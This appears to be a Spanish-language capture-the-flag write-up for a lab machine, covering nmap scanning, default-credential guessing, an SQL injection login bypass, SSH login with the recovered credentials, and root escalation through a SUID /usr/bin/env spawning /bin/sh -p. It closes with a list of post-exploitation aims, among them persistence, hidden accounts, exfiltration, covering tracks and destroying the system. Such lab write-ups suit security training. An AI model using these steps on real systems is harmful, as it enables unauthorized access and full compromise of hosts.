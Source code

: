 # Informe de Enumeración y Escalada de Privilegios

## 1. Comprobar Conexión

```bash
ping 172.17.0.2
```

---

## 2. Escaneo de Puertos Abiertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

| Opción           | Descripción                                             |
|------------------|---------------------------------------------------------|
| `-p-`            | Escanea todos los puertos TCP (1-65535).                |
| `--open`         | Muestra solo los puertos abiertos.                      |
| `-sS`            | Escaneo SYN (stealth), más discreto.                   |
| `--min-rate 5000`| Envía al menos 5000 paquetes por segundo.              |
| `-vvv`           | Muestra detalles extensos del escaneo.                 |
| `-n`             | No resuelve nombres DNS (más rápido).                  |
| `-Pn`            | Omite el ping inicial (útil si ICMP está bloqueado).   |

✅ **Puertos abiertos**: 22 (SSH) y 80 (HTTP)

---

## 3. Detección de Versiones de Servicios

```bash
nmap -p22,80 -sCV 172.17.0.2
```

| Opción  | Descripción                                                   |
|---------|---------------------------------------------------------------|
| `-p22,80` | Escanea puertos específicos (SSH y HTTP).                    |
| `-sC`   | Ejecuta scripts por defecto (detección de servicios, banners).|
| `-sV`   | Intenta identificar versiones de los servicios.               |

**Resultados:**

- `22/tcp open ssh` → OpenSSH 8.9p1 Ubuntu 3ubuntu0.6  
- `80/tcp open http` → Apache httpd 2.4.52 (Ubuntu)

---

## 4. Prueba de Credenciales Comunes

```
admin:admin  
user:password  
root:root  
root:toor  
```

❌ **Ninguna credencial fue válida.**

---

## 5. Prueba de Inyección SQL

Al ingresar `' OR '1'='1` en el formulario de login, se accedió al sistema.

✅ **Acceso exitoso. Se obtuvieron credenciales:**

```
Usuario: Dylan  
Contraseña: KJSDFG789FGSDF78  
```

---

## 6. Acceso SSH

> **Importante**: el nombre de usuario debe ir en minúsculas.

```bash
ssh dylan@172.17.0.2
```

✅ **Acceso SSH exitoso.**

---

## 7. Búsqueda de Archivos con Permisos SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```

| Opción         | Descripción                                       |
|----------------|---------------------------------------------------|
| `/`            | Búsqueda desde la raíz del sistema.               |
| `-perm -4000`  | Busca archivos con el bit SUID activado.          |
| `-type f`      | Solo archivos.                                    |
| `2>/dev/null`  | Suprime mensajes de error.                        |

**Resultados relevantes:**

```bash
/usr/bin/env
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
...
```

🔍 Archivos como `/usr/bin/env` pueden ser aprovechados para escalar privilegios.

| Binario                                | Riesgo / Uso potencial                        | ¿Explotable? |
|----------------------------------------|-----------------------------------------------|--------------|
| `/usr/bin/passwd`                      | Cambia contraseñas.                           | 🔒 No         |
| `/usr/bin/chsh`, `/usr/bin/chfn`      | Cambia shell o info del usuario.              | 🔒 No         |
| `/usr/bin/su`                          | Requiere contraseña.                          | 🔒 No         |
| `/usr/bin/env`                         | Ejecuta comandos con entorno limpio.          | ✅ ¡Sí!       |

---

## 8. Escalada de Privilegios con `env`

```bash
/usr/bin/env /bin/sh -p
```

| Parte            | Explicación                                               |
|------------------|-----------------------------------------------------------|
| `/usr/bin/env`   | Ejecuta un programa con un entorno controlado.           |
| `/bin/sh`        | Shell estándar.                                          |
| `-p`             | Conserva los privilegios del ejecutable SUID.            |

✅ **Se obtiene una shell como root.**

---

## 9. Post-explotación

Una vez con acceso como root, se pueden realizar las siguientes acciones:

- ✅ Mantener el acceso (persistencia)  
- 👤 Crear un usuario oculto  
- 🔐 Añadir una clave pública SSH  
- 📦 Exfiltración de información  
- 🌐 Exploración de la red interna  
- 🔀 Pivoting hacia otras máquinas  
- 🧹 Eliminación de huellas  
- 💣 Destrucción del sistema (opcional y maliciosa)
